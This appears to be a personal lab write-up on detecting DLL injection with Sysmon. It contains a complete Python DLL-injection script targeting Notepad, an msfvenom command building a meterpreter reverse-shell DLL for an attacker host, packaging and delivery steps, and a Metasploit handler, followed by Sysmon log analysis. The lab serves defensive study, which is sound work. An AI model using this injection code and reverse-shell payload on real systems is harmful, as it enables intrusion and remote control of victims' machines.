 # Detection of Simple DLL Injection with Sysmon

## Introduction

In this lab, I infected a virtual Windows machine with an executable containing a simple payload.  
The executable was written in Python and its objective was to inject a DLL into a running Windows service (Notepad).  
The primary goal was to detect signs of this malicious behavior through Sysmon logs and evaluate how native Windows defenses respond.

**Tools Used**: Sysmon, Metasploit, Wine, Kali Linux, Event Viewer, Python, PyInstaller, Oracle VirtualBox

### Sysmon Configuration

![Image](https://github.com/user-attachments/assets/9622ffff-10ed-45c0-9805-0e5931343393)

---

## Malware Creation and Delivery

### Creating the Injection Script

To perform DLL injection, I used a simple Python script found online.

```python
import ctypes
import ctypes.wintypes as wintypes
import psutil

# Initialize kernel32
kernel32 = ctypes.WinDLL("kernel32.dll", use_last_error=True)

# Constants
PROCESS_ALL_ACCESS = 0x1F0FFF
MEM_COMMIT = 0x00001000
PAGE_READWRITE = 0x04

# Function to get notepad's PID
def get_notepad_pid():
    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'].lower() == 'notepad.exe':
            return proc.info['pid']
    return None

# Get notepad's PID
pid = get_notepad_pid()
if not pid:
    print("Notepad not found")
    exit(1)

# Path to payload
dll_path = "test2.dll"

# Open target process
h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, pid)

# Allocate memory in target process
arg_address = kernel32.VirtualAllocEx(h_process, 0, len(dll_path) + 1, MEM_COMMIT, PAGE_READWRITE)

# Write DLL path to allocated memory
written = ctypes.c_size_t(0)
kernel32.WriteProcessMemory(h_process, arg_address, dll_path.encode('utf-8'), len(dll_path) + 1, ctypes.byref(written))

# Get LoadLibraryA address
h_kernel32 = kernel32.GetModuleHandleA(b'kernel32.dll')
load_library = kernel32.GetProcAddress(h_kernel32, b'LoadLibraryA')

# Create remote thread in target process
kernel32.CreateRemoteThread(h_process, None, 0, load_library, arg_address, 0, None)
```

The PID of the process changes every time that a new process is run, so it was necessary to insert this 
function to find the PID of the notepad automatically:

```python
def get_notepad_pid():
   for proc in psutil.process_iter(['pid', 'name']):
       if proc.info['name'].lower() == 'notepad.exe':
          return proc.info['pid']
   return None

pid = get_notepad_pid()
```

### Embedding the Payload

Was generated the malicious DLL payload using Metasploit's `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f dll > test.dll
```

### Creating the Executable

Initially, I used PyInstaller to compile the Python script into an executable. However, running the resulting binary on the target machine failed due to environment compatibility issues.  
To solve this, I used **Wine** on Kali Linux to simulate a Windows environment and generate a compatible executable.


1. **Steps**

```bash
wget https://www.python.org/ftp/python/3.10.9/python-3.10.9-amd64.exe
wine python-3.10.9-amd64.exe
wine cmd
python -m pip install pyinstaller
pyinstaller --onefile --add-data "payload.dll;." injection.py
```

### Delivery Method

To deliver the payload, I used a simple Python HTTP server on the attacker machine and set up a listener.

```bash
python3 -m http.server 8000
```
![Image](https://github.com/user-attachments/assets/8654a2ea-66e0-465f-bfb9-918f40ed46b8)

ON THE TARGET MACHINE:

![Image](https://github.com/user-attachments/assets/b5750b38-2ac5-400a-9140-10c168948a44)
---

## Execution on the Target Machine and Sysmon Log Analysis

Despite disabling basic Windows Defender features, getting a stable reverse connection was challenging. Still, Sysmon successfully logged multiple indicators of compromise.

![Image](https://github.com/user-attachments/assets/0255d64d-235d-4f04-9724-b835fa43fb43)

---

## Log Analysis

### Event ID 1: Process Create

```
UtcTime: 2025-05-08 13:21:20.798
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
ParentImage: C:\Windows\explorer.exe
Hashes: MD5=..., SHA256=...
```

**Explanation**: Event ID 1 logs every process creation. Although not inherently malicious, indicators like missing file metadata and hash verification help identify suspicious files.  
The parent process being `explorer.exe` suggests user interaction (manual execution).

### Event ID 13: Registry Event

```
UtcTime: 2025-05-08 13:21:22.977
Image: C:\Windows\system32\svchost.exe
TargetObject: HKU\...\AppCompatFlags\Compatibility Assistant\Store\...injection.exe
```

**Explanation**: This shows `svchost.exe` modifying the registry to store information about the executed file.  
Windows uses this Compatibility Assistant key when unusual behavior is detected.

### Event ID 5: Process Terminated

```
UtcTime: 2025-05-08 13:21:20.958
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
```

**Explanation**: The process was terminated shortly after execution, possibly due to Windows security defenses or a code error.  
To proceed with the Sysmon log analysis, I created a simpler malware sample whose only purpose was to initiate a remote connection.

```bash
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST ##.##.##.##
set LPORT 4444
run
```


![Image](https://github.com/user-attachments/assets/654d581d-448b-41fd-9989-a6007542fccf)

### Event ID 3: Network Connection

```
UtcTime: 2025-05-08 17:16:34.953
ProcessId: 5104
Image: C:\Users\home\Downloads\final.exe
DestinationIp: ##.##.##.#
DestinationPort: 4444
```

**Explanation**: This log confirms the reverse shell behavior. `final.exe` attempts to connect to the attacker's listener, typically used by tools like Metasploit.

---

## Conclusion

This lab was extremely valuable for deepening my understanding of Sysmon logging and key Windows processes such as `svchost.exe`, `explorer.exe`, and `rundll32.exe`.  
Although I was not able to successfully execute the first malware sample, the process of creating and troubleshooting it gave me significant hands-on experience.  
I plan to conduct a follow-up lab to further explore DLL injection techniques and Windows process behavior in greater detail.
